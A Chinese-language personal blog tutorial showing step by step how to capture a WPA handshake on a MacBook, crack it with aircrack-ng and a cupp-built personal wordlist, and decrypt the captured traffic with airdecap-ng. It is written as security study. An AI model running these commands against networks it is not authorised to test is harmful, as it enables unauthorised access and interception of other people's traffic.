 ```yaml
---
categories:
  - Technical
tags:
  - Crack
  - MacOS
date: 2020-02-21 18:52:56	
---
```


2020 年的寒假过得属实弟弟
我在家里默默地刷安全牛的教程，最新刷到了“无线攻击”这一章，虽然在学校的机器上安装了 Kali 虚机，但是没有 Usb 无线网卡。于是用 MacBook 尝试了一下。
PS： 本文参考了网络上众多的文章，但是有我自己发挥的部分。由于现在绝大部分无线网络的加密方法都是 WPA、WPA2，弱点比较大的 WEP 我现在还没碰到过，已经很少使用，而 WPA、WPA2 几乎没有弱点，想要破解只能暴力穷举，理论上只要你的密码设置的足够复杂，就是不可破解的（但谁会把 Wifi 密码设置的这么复杂）

<!-- more -->

## 如何发现附近的网络

这里的发现网络，不是单指如何获得附近有哪些 WiFi，而是**附近有哪些 WiFi，他们分别用的什么加密密钥**。在 Kali 上实现这一点，我们需要使用 airmon-ng 来发现附近的 WiFi，而 MacBook 自带了强大的 airport 工具。

### 使用 airport

为了方便我们使用 airport，先在命令行中执行以下命令：

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

上述命令让我们可以在命令行直接输入 airport 来使用它。

### 发现附近网络

在命令行输入:

```bash
airport -s
```

得到如下结果：

```bash
Princeling-Mac at /opt ❯ airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                     FAST_236864 cc:34:29:23:68:64 -81  6,-1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES)
                     FAST_20C20A 78:eb:14:20:c2:0a -77  12      Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
                     FAST_11D9DC c0:61:18:11:d9:dc -59  7       Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
                        iTV-KtYh 46:7b:bb:b9:c5:d0 -59  9       Y  US WPA(PSK/TKIP,AES/TKIP)
                   ChinaNet-KtYh 44:7b:bb:a9:c5:d0 -59  9       Y  US WPA(PSK/TKIP,AES/TKIP)
```

## 等待握手信号

事实上，我们的暴力穷举不可能是不停的给路由器发送请求，这种做法吃力又不讨好。网络上有很多描述 WPA 破解原理的文章，可以去阅读。简单地说，我们需要侦听到一个用户的正确登录，然后获取登录过程中的两组密钥，之后就可以离线破解了。

### 侦听数据

```bash
airport en0 sniff 7
```

**en0** 是你的无线网卡，这个信息可以通过输入

```bash
ifconfig
```

得到。

如果有很多网卡，选择你用来连接 Wifi 的那个。

**7** 是上文中，发现附近网络的 CHANNEL 列，需要和你想要破解的目标网络一致。

运行该命令的时候，wifi 的图标会发生改变。
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly91cGxvYWQtaW1hZ2VzLmppYW5zaHUuaW8vdXBsb2FkX2ltYWdlcy8yMTI3MDYyMy00Yjc1MDIxZDBhZTA2YWJkLnBuZw?x-oss-process=image/format,png)
这个时候你的网络连接也会断开，按下 ctrl+c 结束侦听。
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly91cGxvYWQtaW1hZ2VzLmppYW5zaHUuaW8vdXBsb2FkX2ltYWdlcy8yMTI3MDYyMy1jMjdjMTM5ZTkyMGM1YWU0LnBuZw?x-oss-process=image/format,png)

## 分析数据

不可避免的，还是要安装 airmon-ng

```bash
brew install airmon-ng
```

安装完成后：

```bash
aircrack-ng /tmp/airportSniffLbhZSp.cap
```

```bash
Princeling-Mac at /opt ❯ aircrack-ng /tmp/airportSniffLbhZSp.cap
Opening /tmp/airportSniffLbhZSp.cap
Read 8351 packets.

   #  BSSID              ESSID                     Encryption

   1  C0:61:18:11:D9:DC  FAST_11D9DC               WPA (1 handshake)
   2  CC:34:29:23:68:64  FAST_236864               No data - WEP or WPA

Index number of target network ?
```

在抓包过程中，我用手机登录了一下无线网 FAST_11D9DC。可以看到 airport 已经抓到了一组握手数据。

在“Index number of target network ?”这里输入想要破解的 wifi，由于 2 没有握手数据，所以我们输入 1。

## aircrack 破解

```bash
aircrack-ng -w dict.txt -b c0:61:18:11:d9:dc /tmp/airportSniffLbhZSp.cap
```

**dict.txt** 是字典文件，**c0:61:18:11:d9:dc** 是发现附近网络中的 BSSID，**/tmp/airportSniffLbhZSp.cap**是数据包。

### 字典文件在哪儿？

#### 1. 互联网下载

在网络上有很多人搜集到的 wifi 字典，如果是公共场合，这些字典的命中率还是很高的。但是字典很庞大，暴力穷举需要消耗很长时间。

#### 2. 自己制作

如果是在家庭、私人场合的 WiFi，字典的质量就显得很重要。这里推荐一个社工字典制作程序。可以去 github 搜索 cupp 下载。或者[点击直达](https://github.com/NjtechPrinceling/cupp)

简单演示一下 cupp 的使用。

```zsh
python3 cupp.py -I
```

```bash
Princeling-Mac at ~/Documents/GitHub/cupp ❯ python3 cupp.py -I
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: wanglei
> Surname:
> Nickname: princeling
> Birthdate (DDMMYYYY):


> Partners) name:
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name:
> Company name:


> Do you want to add some key words about the victim? Y/[N]:
> Do you want to add special chars at the end of words? Y/[N]:
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]:

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to wanglei.txt, counting 68 words.
[+] Now load your pistolero with wanglei.txt and shoot! Good luck!
```

不知道就一路回车下去，填写一些相关信息，就可以生成字典了。

然后用这个字典破解 wifi 内容。

如果你的字典中包含密码，则会出现如下界面：

                              Aircrack-ng 1.5.2

      [00:00:00] 8/1 keys tested (88.65 k/s)

      Time left: 0 seconds                                     800.00%

                         KEY FOUND! [ 88888888 ]


      Master Key     : 26 FB 23 5F FE 0B 39 0A C1 12 F3 30 55 FF EE 02
                       CB 7E EA 13 B0 CE D6 7E BB 7E AA 52 1B EA 2E 02

      Transient Key  : 8D E6 57 44 42 BE 95 C2 EC 75 60 FA CA 1A 1A C1
                       C8 31 46 C4 4D DB 98 4D 34 D7 5A D0 15 9F BD 42
                       6C 9C 96 5C FC AE 24 39 83 1D A8 89 C7 71 F9 4A
                       64 D5 DA FB 24 7E 91 47 E6 35 DD 9A 87 A6 A2 5B

      EAPOL HMAC     : 8D 62 A3 8A 42 D1 68 EA 4B 89 FC FC B6 BC C9 AA

说明破解成功。

## airdecap 分析包

现在我们拿到了密码。但是如果折腾了这么半天，目的就是为了蹭 WiFi，感觉有点呆呆的。

有了 WiFi 的密码，实际上我们可以对 WiFi 的数据包进行解包，工具就是 airdecap。

这个时候再拿出刚刚抓取的数据包，用 wireshark 打开。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200211165856543.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM5NDk4NzAx,size_16,color_FFFFFF,t_70)
可以看到全都是 802.11 的协议，并且数据帧全都是加密的数据。

在命令行输入：

```bash
airdecap-ng -e FAST_11D9DC -b c0:61:18:11:d9:dc -p 88888888 ./Downloads/11d9dc.cap
```

**e**是 essid，**b**是 bssid，**p**是破解出来的 WiFi 密码。

运行成功后，会在目标目录生成对应的 dec 文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200211165909879.png)
再用 WireShark 打开，就能看到解密后的包内容了。
